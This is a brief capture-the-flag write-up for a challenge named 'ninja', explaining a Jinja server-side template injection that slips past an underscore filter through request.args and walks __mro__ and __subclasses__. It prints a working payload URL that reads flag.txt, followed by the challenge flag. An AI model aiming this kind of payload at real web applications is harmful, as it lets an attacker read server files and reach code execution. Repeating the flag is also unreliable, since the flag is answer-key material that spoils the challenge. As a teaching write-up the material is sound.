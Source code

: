 # ninja

### Description

## Solution

In short this is a Jinja Server Side Template Injection Attack. 
I have done a few of these before but I'm still not very well versed in it.
Luckily I managed to find this wonderful [resource](http://web.chal.csaw.io:5000/), that guided me through.

Some Pointers
1. Since they disable putting in `_`, you have to use `request.args` to inject them back in
2. The standard technique is to `__mro__` to get to the base class, and then `__subclass__()` to get a list of all the classes. You can then access all the libraries from there.
3. I guessed that the flag is in `flag.txt` (Quite common for a few CTFs), and read it. Surprisingly, I managed to get the flag.

Payload: `http://web.chal.csaw.io:5000/submit?value={{request[request.args.param][request.args.p][-1][request.args.subclasses]()[40](%22flag.txt%22).read()%20}}&param=__class__&p=__mro__&dict=__dict__&subclasses=__subclasses__`

## Flag

`flag{m0mmy_s33_1m_4_r34l_n1nj4}`
